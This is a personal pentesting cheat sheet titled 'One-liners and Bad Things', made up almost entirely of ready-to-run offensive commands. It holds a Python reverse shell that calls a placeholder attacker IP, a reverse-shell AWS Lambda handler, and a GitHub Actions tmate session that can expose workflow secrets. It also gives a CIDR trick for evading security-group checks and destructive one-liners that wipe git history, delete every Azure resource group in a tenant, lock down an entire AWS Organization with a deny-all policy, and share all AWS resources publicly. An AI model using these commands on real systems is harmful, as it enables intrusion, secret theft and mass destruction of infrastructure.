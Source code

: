 ```yaml
---
description: My favorite one-line commands
---
```


# One-liners and Bad Things

## Reverse Shell

The attacker machine must be public and exposed to the internet.

Run this on the attacker machine:

```
nc -lp 1337
```

Run this on the victim machine:

{% code overflow="wrap" %}
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("BAD_IP_ADDRESS_HERE",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

If you're in an environment that restricts security groups that match 0.0.0.0/0, chances are they are doing pattern matching and not reasoning about effective network access. You can create an EC2 instance with security groups matching these IP ranges and it will be **effectively the same as 0.0.0.0/0**:

```
1.0.0.0/8
2.0.0.0/7
4.0.0.0/6
8.0.0.0/5
16.0.0.0/4
32.0.0.0/3
64.0.0.0/2
128.0.0.0/1
```

### Reverse Shell on AWS Lambda

Run the attacker command as above.

Then create the Python Lambda function with the code below. NOTE: You have to adjust the Lambda timeout config to much longer, like 15 minutes (the max).

```python
import json
import socket
import subprocess
import os

def lambda_handler(event, context):
    ip_address = event.get('ip')
    port = event.get('port', 1337)
    s = socket.socket()
    s.connect((ip_address, port))
 
    for fd in (0, 1, 2):
        os.dup2(s.fileno(), fd)
 
    subprocess.call(["/bin/bash", "-i"])
```

Invoke it with this event:

```json
{"ip_address":"MY_EVIL_IP_ADDRESS","port":1337}
```

### Reverse Shell in GitHub Actions

```
name: Reverse Shell Pentesting

on: workflow_dispatch

jobs:
  reverse-shell:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    
    - name: Setup tmate session
      uses: mxschmitt/action-tmate@v3
      timeout-minutes: 60
```

Run it and you'll see that it prints out an SSH command for you to connect with. You can add `env` to the "Setup tmate session" step to expose environment variables that are available to your GitHub actions workflow.

## Git

### Nuke Git commit history

```
git checkout --orphan newBranch; \ 
	git add -A; \                   # Add all files and commit them 
	git commit -m "Cleanup"; \
	git branch -D main; \           # Delete the main branch
	git branch -m main; \           # Rename the current branch to main
	git push -f origin main; \      # Force push main branch to GitHub
	git gc --aggressive --prune=all # Remove the old files
```

## Azure

### Delete all resources in an entire Azure Tenant

Bash variant:

```
#!/usr/bin/env bash

for sub in `az account list | jq -r '.[].id'`; do \
    for rg in `az group list --subscription $sub | jq -r '.[].name'`; do \
        az group delete --name ${rg} --subscription $sub --no-wait --yes; \
    done; done;
```

Terraform variant:

```
resource "null_resource" "nuke" {
  # Because we set this to timestamp, it *always* runs :D
  triggers = {
    party_like_its_jan_1_1970 = timestamp()
  }

  provisioner "local-exec" {
    command = <<EOF
for sub in `az account list | jq -r '.[].id'`; do \
    for rg in `az group list --subscription $sub | jq -r '.[].name'`; do \
        az group delete --name $rg --subscription $sub --no-wait --yes; \
    done; \
done;
EOF
  }
}
```

My post that explains the above is [here](https://kmcquade.com/2020/11/nuking-all-azure-resource-groups-under-all-azure-subscriptions/).&#x20;

## AWS

### Brick an entire AWS Organization using Deny \* SCPs

```
aws organizations attach-policy \
  --policy-id $(aws organizations create-policy --name pwn \
     --type SERVICE_CONTROL_POLICY \
     --description "pwn" 
     --content '{"Version": "2012-10-17","Statement": [{"Effect": "Deny", "Action": "*", "Resource": "*"}]}' \
    | jq ".Policy.PolicySummary.Id"\
    ) \
  --target-id $(aws organizations list-roots | jq ".Roots | .[0].Id")
```

### Share All Exposable Resources in an AWS Account with the internet 😈

```
endgame smash --service all --evil-principal "*"
```

## Other Resources

* [https://github.com/D4Vinci/One-Lin3r](https://github.com/D4Vinci/One-Lin3r): Gives you one-liners that aids in penetration testing operations, privilege escalation, and more.
